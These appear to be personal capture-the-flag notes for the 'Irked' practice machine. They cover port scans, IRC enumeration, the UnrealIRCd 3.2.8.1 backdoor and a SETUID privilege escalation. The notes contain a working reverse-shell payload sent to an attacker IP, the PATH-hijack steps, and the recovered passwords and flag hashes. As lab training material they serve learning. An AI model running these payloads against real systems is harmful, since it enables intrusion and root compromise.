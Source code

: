 # Irked

**IPv4: 10.129.234.149**

## Enumeration/Scanning

- sudo nmap -sV -sC -O -v -Pn 10.129.234.149
    
    PORT    STATE SERVICE VERSION
    22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
    80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
    111/tcp open  rpcbind 2-4 (RPC #100000)
    

http://10.129.234.149/

- "IRC is almost working!"

Scan IRC ports

- sudo nmap -sV -sC -O -v -Pn -p194,6667,6660-7000 10.129.234.149
    
    PORT     STATE SERVICE VERSION
    6697/tcp open  irc     UnrealIRCd
    

nc IP 6697

admin
:irked.htb 256 ran213eqdw123 :Administrative info about irked.htb
:irked.htb 257 ran213eqdw123 :Bob Smith
:irked.htb 258 ran213eqdw123 :bob
:irked.htb 258 ran213eqdw123 [:widely@used.name](mailto::widely@used.name)

info
Unreal3.2.8.1

## Exploitation

https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor/

AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.4 4444 >/tmp/f

nc listener

shell gained

## Privilege Escalation

/home/djmardoc/Documents/
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss

wget http://10.129.234.149/irked.jpg

steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss

Kab6h+m+bbp2J:HG

f725358749c22cdb0fc1d79a6156c32e

SETUID binary for /usr/bin/viewuser
when run: sh: 1: /tmp/listusers: not found

echo sh > /tmp/listusers

chmod +x /tmp/listusers

run viewuser again

root

6f76fb820afc62907311ec27869b456b

## Post-exploitation

None
